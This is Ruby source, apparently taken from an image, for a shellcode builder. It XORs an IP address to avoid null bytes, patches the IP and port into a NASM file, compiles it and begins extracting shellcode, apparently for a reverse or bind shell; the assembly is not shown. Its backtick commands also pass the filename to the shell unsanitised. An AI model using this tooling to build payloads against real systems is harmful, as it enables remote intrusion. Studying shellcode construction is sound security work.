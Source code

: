 ```ruby
def run
  parse_args
  @xor_ip = xor_ip(@ip)
  @port = to_hex(@port)
  replace_ip
  replace_port
  compile_nasm
  @shellcode = generate_shellcode
  replace_shellcode
  compile_binary
rescue OptionParser::MissingArgument
  puts "Missing argument:"
  @parser.parse %w[--help]
rescue StandardError => e
  puts "An error #{e.inspect} occurred"
  exit(1)
end

# Convert the IP into the XORed value with 0xffffffff
# This is needed to avoid null bytes when used with the nasm code
def xor_ip(ip)
  ip_hex = ip.split('.').reverse.map(&:to_i)
    .map { |n|  n.to_s(16).size.odd? ? n.to_s(16).prepend('0') : n.to_s(16) }
    .join.prepend('0x').hex
  xor_ip = ip_hex ^ 0xffffffff
  xor_ip.to_s(16).prepend('0x')
end

# Convert number into hex format used by the nasm code
def to_hex(number)
  hex = number.to_s(16)
  hex = hex.size.even? ? hex : hex.prepend('0')
  hex.scan(/../).reverse.join.prepend('0x')
end

# Replace a value inside a file
def replace_content(filename = "#{@filename}.nasm")
  file_content = File.read(filename)
  yield(file_content)
  File.write(filename, file_content)
end

# Replace the XORed IP value in the nasm file
def replace_ip
  replace_content do |nasm_code|
    nasm_code.gsub!(/XOR_IP\s*equ\s\S+/, "XOR_IP      equ #{@xor_ip}")
  end
end

# Replace the port number in the nasm file
def replace_port
  replace_content do |nasm_code|
    nasm_code.gsub!(/PORT\s*equ\s\S+/, "PORT        equ #{@port}")
  end
end

# Compile the nasm code
def compile_nasm
  `nasm -f elf32 -o #{@filename}.o #{@filename}.nasm`
  `ld -m elf_i386 -s -o #{@filename} #{@filename}.o`
end

# Generate shellcode using objdump
```